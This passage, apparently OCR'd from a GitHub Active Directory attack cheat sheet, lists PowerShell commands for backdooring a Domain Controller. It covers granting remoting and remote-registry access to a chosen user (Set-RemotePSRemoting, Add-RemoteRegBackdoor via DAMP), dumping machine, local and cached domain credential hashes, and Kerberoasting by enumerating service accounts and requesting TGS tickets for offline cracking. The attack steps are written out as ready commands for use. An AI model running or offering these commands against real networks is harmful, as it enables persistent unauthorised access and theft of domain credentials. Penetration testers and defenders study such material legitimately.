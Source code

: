 ```
PS C:\> Set-RemotePSRemoting -UserName <username> -Verbose        # On local machine for <username>

PS C:\> Set-RemotePSRemoting -UserName <username> -ComputerName <Domain Controller> -Verbose        # On remote machine for <username> without credentials

PS C:\> Set-RemotePSRemoting -UserName <username> -ComputerName <Domain Controller> -Remove        # On remote machine, remove the permissions
```

- Modify our user permissions on the Remote Registry service, and multiple registry keys on a target machine e.g. Domain Controller even without having Administrative privileges using PowerShell commands (modify ACLs to allow non-admin users access to securable objects) as Domain Admin

```
PS C:\> Add-RemoteRegBackdoor -ComputerName <Domain Controller> -Trustee <username> -Verbose        # Using DAMP (https://github.com/HarmJ0y/DAMP), with Administrative privileges on remote machine

PS C:\> Get-RemoteMachineAccountHash -ComputerName <Domain Controller> -Verbose        # As <username>, retrieve machine account hash

PS C:\> Get-RemoteLocalAccountHash -ComputerName <Domain Controller> -Verbose        # Retrieve local account hash

PS C:\> Get-RemoteCachedCredential -ComputerName <Domain Controller> -Verbose        # Retrieve domain cached credentials
```

Domain Privilege Escalation
-----------------------------------------

### Kerberoast

- Find user accounts used as Service accounts using PowerView

```
PS C:\> Get-NetUser -SPN        # Can also use https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1
```

- Find user accounts used as Service accounts using ActiveDirectory Module

```
PS C:\> Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

- Request a TGS

```
PS C:\> Add-Type -AssemblyName System.IdentityModel 
PS C:\> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/test-mgmt.test.domain.local"        # Request-SPNTicket from PowerView can be used as well for cracking with John or Hashcat
```

- Display a list of currently cached Kerberos tickets, to confirm the TGS is there

```
PS C:\> klist
```
